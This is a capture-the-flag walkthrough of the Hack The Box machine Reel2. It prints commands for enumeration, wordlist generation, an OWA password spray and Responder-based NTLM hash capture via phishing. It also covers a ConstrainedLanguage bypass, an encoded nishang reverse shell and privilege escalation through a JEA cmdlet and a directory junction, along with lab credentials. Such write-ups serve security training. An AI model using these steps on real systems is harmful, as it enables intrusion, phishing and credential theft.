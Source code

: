 Hello friends!
Today I'm going to take you around a special machine on hackthebox platform: Reel2
<img src="/src/reel2.png">

It was a hard machine as the statistiques show!
First we start as usual with running <emb>nmap</emb> to see open ports and services.

<span style="color:blue"><emb># nmap -sV -T4 -oA nmap 10.10.10.210</emb></span>

The result shows a bunch of ports: 80, 443, 8080, 600x.


<img src="/src/nmap1.png">

We will start by ports 80 and 443, which only show a default windows IIS server default page. In this case we will launch a directory/files brute force to see if can find some juicy entries.

<span style="color:blue"><emb># dirsearch.py -e php,html -u http://10.10.10.210/ -t 50 -w wordlist.txt</emb></span>


<span style="color:blue"><emb># dirsearch.py -e php,html -u https://10.10.10.210/ -t 50 -w wordlist.txt</emb></span>


The results show the existing of exchange server and the web posrtal is accessible through https://10.10.10.210/owa (we can guess from the fisrt look that the exchange version is 2010)

Next step is to build username and password lists to brute force the OWA access. At this point we can use large wordlists but it may take an eternity to finish the attack.

The next open port is 8080 which exposes a social media website called "wallstant". We create a new account and start to look for some vulnerablities on that site. As by now, we will use this site to generate wordlists for username and password.


The following command will generate a worldlist using CEWL program (-m is used for minimum word length, -d used depth to spider):


<span style="color:blue"><emb># cewl -w passlist.txt -m 2 -d 4 -H Cookie:PHPSESSID=q7lmf0h6m81u4propu0r1s4reh --proxy_host 127.0.0.1 --proxy_port 8080 http://10.10.10.210:8080/</emb></span>


To generate a wordlist for usernames we make a curl to search endpoint which contains names of blog users.


<span style="color:blue"><emb># curl -v --cookie "PHPSESSID=q7lmf0h6m81u4propu0r1s4reh" http://10.10.10.210:8080/search > site.txt</emb></span>


The following will create a list from the output of curl command:


<span style="color:blue"><emb># html2dic site.txt >> list.txt</emb></span>

You can also use some burp extensions to generate those wordlists: <a href="https://github.com/PortSwigger/wordlist-extractor">Example 1</a> or <a href="https://github.com/tinmyowin7/Wordlist-Generator">Example 2</a>


After generating those wordlists we have many tools to perform a password spray attack: Take every username in the user's list and test it against every password in password's list.
Examples of tools: <a href="https://github.com/sensepost/ruler">Ruler</a>, <a href="https://github.com/byt3bl33d3r/SprayingToolkit">SprayToolkit</a>


<span style="color:blue"><emb># ./atomizer.py owa http://reel2:443/owa passwords.txt users.txt --threads 20 --debug --interval 0:0:2</emb></span>


After some time we have a valid credentials: <span style="color:red">s.svensson:Summer2020</span>


We login with s.svensson account, and we can see that we have a list of users in the owa adress book, an evident tought that come to our mind is to send a phishing email to all users, with an email body set to out attacker machine. 


We set our responder as follow: <span style="color:blue"><emb># responder -I tun0 -v</emb></span>


A few seconds later we got NTLMv2 hash for a k.svensson, and we launch hashcat to crack that hash: <span style="color:red">k.svensson:kittycat1</span>


At this stage we will try to use this crendentials to execute powershell remoting, we had a problem of ConstrainedLanguage mode in that powershell session. To bypass this restriction we can create a function and call it, or we use the & sign to execute commands. So the following will execute `whoami` command: 


```
PS> Invoke-Command -ComputerName 10.10.10.210 -Credential 'HTB.local\k.svensson' -Authentication Negotiate -ScriptBlock {&{whoami}}

PowerShell credential request
Enter your credentials.                                                                                                                                                          
Password for user HTB.local\k.svensson: *********

htb\k.svensson
```

Next we want to get a reverse shell on the box.
We will use nishang and base64 encode it:


<span style="color:blue"><emb># cat Invoke-PowershellTcpOnLine.ps1 | iconv -t utf16le | base64 -w 0</emb></span>


And then we send it to get the reverse shell with `-enc` to decrypt it:
<img src="/src/rev1.png">

We can get the user flag.

Next step is to have administrator access to the box or at least find out a way to read the root.txt flag!

In the desktop of k.svensson we see a Sticky Note link wich can be a good start to find some interesting stuff.

We can search for specific files or some content that have specific terms like "password", "psrc", "pssc" or "jea".

The following command helps us to look for files that end with `.log` extension: 

<span style="color:blue"><emb>PS> get-childitem -path C:\ -File -Recurse -Include *.log -ErrorAction SilentlyContinue -Force</emb></span>

The search shows us a file that contains credentials for a new account: <span style="color:red">jea_test_account:Ab!Q@vcg^%@#1</span>

We spent some time reading about JEA (Just Enough Administration), which is a security technology that enables delegated administration for anything managed by PowerShell. Reading the configuration files (C:\Users\k.svensson\Documents\jea_test_account.psrc and C:\Users\k.svensson\Documents\jea_test_account.pssc), we discover that jea_test_account is the only user who can execute a commandlet named `Check-File` which gets the content of a file only if it is inside `D:/` or `C:/ProgramData`

The final step is the create a Junction which is a soft link for folders in Windows (like symbolic links in Linux).

<span style="color:blue"><emb>PS> New-Item -ItemType Junction -Path 'C:\ProgramData\hecsv' -Target 'C:\Users\Administrator'</emb></span>

All what we have to do is to login as jea_test_account and read the root.txt through check-file cmdlet.

To connect to jea we do the following:

<span style="color:blue">
  
```
$user = "jea_test_account"
  

PS> $pass = ConvertTo-SecureString "Ab!Q@vcg^%@#1" -AsPlainText -Force


PS> $cred = New-Object System.Management.Automation.PSCredential -ArgumentList  ($user, $pass)


PS> Enter-PSSession -Computer 10.10.10.210 -credential $cred -ConfigurationName jea_test_account -verbose -debug -Authentication Negotiate
```

</emb></span>

<img src="/src/root2.png">

`Check-File C:\programdata\hecsv\Desktop\root.txt`

<img src="/src/root3.png">

That's it for today, hope you enjoyed the read!

See you next time.
